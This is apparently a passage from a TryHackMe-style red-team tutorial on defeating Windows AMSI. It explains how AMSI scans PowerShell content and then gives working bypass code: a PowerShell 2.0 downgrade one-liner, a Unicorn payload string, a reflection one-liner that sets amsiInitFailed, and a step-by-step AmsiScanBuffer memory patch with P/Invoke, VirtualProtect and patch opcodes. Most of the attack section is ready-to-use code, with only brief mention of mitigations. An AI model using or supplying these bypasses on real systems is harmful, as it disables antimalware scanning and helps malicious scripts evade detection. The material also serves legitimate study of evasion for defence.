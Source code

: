## Table of Contents



Windows API calls and interacting with .NET. The [CLR (**C**ommon **L**anguage **R**untime)](https://docs.microsoft.com/en-us/dotnet/standard/clr) and [DLR (**D**ynamic **L**anguage **R**untime)](https://docs.microsoft.com/en-us/dotnet/framework/reflection-and-codedom/dynamic-language-runtime-overview)

AMSI will determine its actions from a response code as a result of monitoring and scanning. Below is a list of possible response codes,

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5e73cca6ec4fcf1309f2df86/room-content/8a5a7c3e04fb1ccf3e5391ce397c50a6.png)

- AMSI_RESULT_CLEAN = 0
- AMSI_RESULT_NOT_DETECTED = 1
- AMSI_RESULT_BLOCKED_BY_ADMIN_START = 16384
- AMSI_RESULT_BLOCKED_BY_ADMIN_END = 20479
- AMSI_RESULT_DETECTED = 32768

AMSI is instrumented from `System.Management.Automation.dll`, a .NET assembly developed by Windows; From the Microsoft docs, "Assemblies form the fundamental units of deployment, version control, reuse, activation scoping, and security permissions for .NET-based applications." The .NET assembly will instrument other DLLs and API calls depending on the interpreter and whether it is on disk or memory. The below diagram depicts how data is dissected as it flows through the layers and what DLLs/API calls are being instrumented.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5e73cca6ec4fcf1309f2df86/room-content/35e16d45ce27145fcdf231fdb8dcb35e.png)  

In the above graph data will begin flowing dependent on the interpreter used (PowerShell/VBScript/etc.)  Various API calls and interfaces will be instrumented as the data flows down the model at each layer. It is important to understand the complete model of AMSI, but we can break it down into core components, shown in the diagram below. 

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5e73cca6ec4fcf1309f2df86/room-content/efca9438e858f0476a4ffd777c36501a.png)  

Note: AMSI is only instrumented when loaded from memory when executed from the CLR. It is assumed that if on disk MsMpEng.exe (Windows Defender) is already being instrumented.

Most of our research and known bypasses are placed in the Win32 API layer, manipulating the [AmsiScanBuffer](https://docs.microsoft.com/en-us/windows/win32/api/amsi/nf-amsi-amsiscanbuffer) API call.

You may also notice the "Other Applications" interface from AMSI. Third-parties such as AV providers can instrument AMSI from their products. Microsoft documents [AMSI functions](https://docs.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-functions) and the [AMSI stream interface](https://docs.microsoft.com/en-us/windows/win32/api/amsi/nn-amsi-iamsistream)

We can break down the code for AMSI PowerShell instrumentation to better understand how it is implemented and checks for suspicious content. To find where AMSI is instrumented, we can use [InsecurePowerShell](https://github.com/PowerShell/PowerShell/compare/master...cobbr:master) maintained by [Cobbr](https://github.com/cobbr). InsecurePowerShell is a GitHub fork of PowerShell with security features removed; this means we can look through the compared commits and observe any security features. AMSI is only instrumented in twelve lines of code under `src/System.Management.Automation/engine/runtime/CompiledScriptBlock.cs`. These twelve lines are shown below.
```cpp
var scriptExtent = scriptBlockAst.Extent;
 if (AmsiUtils.ScanContent(scriptExtent.Text, scriptExtent.File) == AmsiUtils.AmsiNativeMethods.AMSI_RESULT.AMSI_RESULT_DETECTED)
 {
  var parseError = new ParseError(scriptExtent, "ScriptContainedMaliciousContent", ParserStrings.ScriptContainedMaliciousContent);
  throw new ParseException(new[] { parseError });
 }

 if (ScriptBlock.CheckSuspiciousContent(scriptBlockAst) != null)
 {
  HasSuspiciousContent = true;
 }
```

The PowerShell downgrade attack is a very low-hanging fruit that allows attackers to modify the current PowerShell version to remove security features.  

Most PowerShell sessions will start with the most recent PowerShell engine, but attackers can manually change the version with a one-liner. By "downgrading" the PowerShell version to 2.0, you bypass security features since they were not implemented until version 5.0.

The attack only requires a one-liner to execute in our session. We can launch a new PowerShell process with the flags `-Version` to specify the version (2).

```powershell
PowerShell -Version 2
```

This attack can actively be seen exploited in tools such as [Unicorn](https://github.com/trustedsec/unicorn).

```powershell
full_attack = '''powershell /w 1 /C "sv {0} -;sv {1} ec;sv {2} ((gv {3}).value.toString()+(gv {4}).value.toString());powershell (gv {5}).value.toString() (\\''''.format(ran1, ran2, ran3, ran1, ran2, ran3) + haha_av + ")" + '"'
```

Since this attack is such low-hanging fruit and simple in technique, there are a plethora of ways for the blue team to detect and mitigate this attack.

The two easiest mitigations are removing the PowerShell 2.0 engine from the device and denying access to PowerShell 2.0 via application blocklisting.

Reflection allows a user or administrator to access and interact with .NET assemblies. From the Microsoft docs, "Assemblies form the fundamental units of deployment, version control, reuse, activation scoping, and security permissions for .NET-based applications." .NET assemblies may seem foreign; however, we can make them more familiar by knowing they take shape in familiar formats such as exe (**exe**cutable) and dll (**d**ynamic-**l**ink **l**ibrary).

PowerShell reflection can be abused to modify and identify information from valuable DLLs.

The AMSI utilities for PowerShell are stored in the `AMSIUtils` .NET assembly located in `System.Management.Automation.AmsiUtils`.

Matt Graeber published a one-liner to accomplish the goal of using Reflection to modify and bypass the AMSI utility. This one-line can be seen in the code block below.

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

To explain the code functionality, we will break it down into smaller sections.
First, the snippet will call the reflection function and specify it wants to use an assembly from `[Ref.Assembly]` it will then obtain the type of the AMSI utility using `GetType`.

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
```

The information collected from the previous section will be forwarded to the next function to obtain a specified field within the assembly using `GetField`.

```powershell
.GetField('amsiInitFailed','NonPublic,Static')
```

The assembly and field information will then be forwarded to the next parameter to set the value from `$false` to `$true` using `SetValue`.

```powershell
.SetValue($null,$true)
dir```

Once the `amsiInitFailed` field is set to `$true`, AMSI will respond with the response code: AMSI_RESULT_NOT_DETECTED = 1

AMSI is primarily instrumented and loaded from `amsi.dll`; this can be confirmed from the diagram we observed earlier. This dll can be abused and forced to point to a response code we want. The `AmsiScanBuffer` function provides us the hooks and functionality we need to access the pointer/buffer for the response code.

`AmsiScanBuffer` is vulnerable because `amsi.dll` is loaded into the PowerShell process at startup; our session has the same permission level as the utility.

`AmsiScanBuffer` will scan a "[buffer](https://en.wikipedia.org/wiki/Data_buffer)" of suspected code and report it to `amsi.dll` to determine the response. We can control this function and overwrite the buffer with a clean return code. To identify the buffer needed for the return code, we need to do some reverse engineering; luckily, this research and reverse engineering have already been done. We have the exact return code we need to obtain a clean response!

We will break down a code snippet modified by BC-Security and inspired by Tal Liberman; you can find the original code [here](https://github.com/BC-SECURITY/Empire/blob/master/empire/server/common/bypasses.py). RastaMouse also has a similar bypass written in C# that uses the same technique; you can find the code [here](https://github.com/rasta-mouse/AmsiScanBufferBypass).
At a high-level AMSI patching can be broken up into four steps,

1. Obtain handle of `amsi.dll`
2. Get process address of `AmsiScanBuffer`
3. Modify memory protections of `AmsiScanBuffer`
4. Write opcodes to `AmsiScanBuffer`

We first need to load in any external libraries or API calls we want to utilize; we will load [GetProcAddress](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress), [GetModuleHandle](https://docs.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea), and [VirtualProtect](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) from **kernel32** using [p/invoke](https://docs.microsoft.com/en-us/dotnet/standard/native-interop/pinvoke).

```csharp
[DllImport(`"kernel32`")] // Import DLL where API call is stored
public static extern IntPtr GetProcAddress( // API Call to import
	IntPtr hModule, // Handle to DLL module
	string procName // function or variable to obtain
);

[DllImport(`"kernel32`")]
public static extern IntPtr GetModuleHandle(
	string lpModuleName // Module to obtain handle
);

[DllImport(`"kernel32`")]
public static extern bool VirtualProtect(
	IntPtr lpAddress, // Address of region to modify
	UIntPtr dwSize, // Size of region
	uint flNewProtect, // Memory protection options
	out uint lpflOldProtect // Pointer to store previous protection options
); 
```

The functions are now defined, but we need to load the API calls using `Add-Type`. This cmdlet will load the functions with a proper type and namespace that will allow the functions to be called.

```powershell
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
```

Now that we can call our API functions, we can identify where `amsi.dll` is located and how to get to the function. First, we need to identify the process handle of AMSI using `GetModuleHandle`. The handle will then be used to identify the process address of `AmsiScanBuffer` using `GetProcAddress`.

```csharp
$handle = [Win32.Kernel32]::GetModuleHandle(
	'amsi.dll' // Obtains handle to amsi.dll
);
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress(
	$handle, // Handle of amsi.dll
	'AmsiScanBuffer' // API call to obtain
); 
```

Next, we need to modify the memory protection of the `AmsiScanBuffer` process region. We can specify parameters and the buffer address for `VirtualProtect`.

Information on the parameters and their values can be found from the previously mentioned API documentation.

```csharp
[UInt32]$Size = 0x5; // Size of region
[UInt32]$ProtectFlag = 0x40; // PAGE_EXECUTE_READWRITE
[UInt32]$OldProtectFlag = 0; // Arbitrary value to store options
[Win32.Kernel32]::VirtualProtect(
	$BufferAddress, // Point to AmsiScanBuffer
	$Size, // Size of region
	$ProtectFlag, // Enables R or RW access to region
	[Ref]$OldProtectFlag // Pointer to store old options
);
```

We need to specify what we want to overwrite the buffer with; the process to identify this buffer can be found [here](https://rastamouse.me/memory-patching-amsi-bypass/). Once the buffer is specified, we can use [marshal copy](https://docs.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.copy?view=net-6.0) to write to the process.

```csharp
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy(
	$buf, // Opcodes/array to write
	0, // Where to start copying in source array 
	$BufferAddress, // Where to write (AsmiScanBuffer)
	6 // Number of elements/opcodes to write
);
```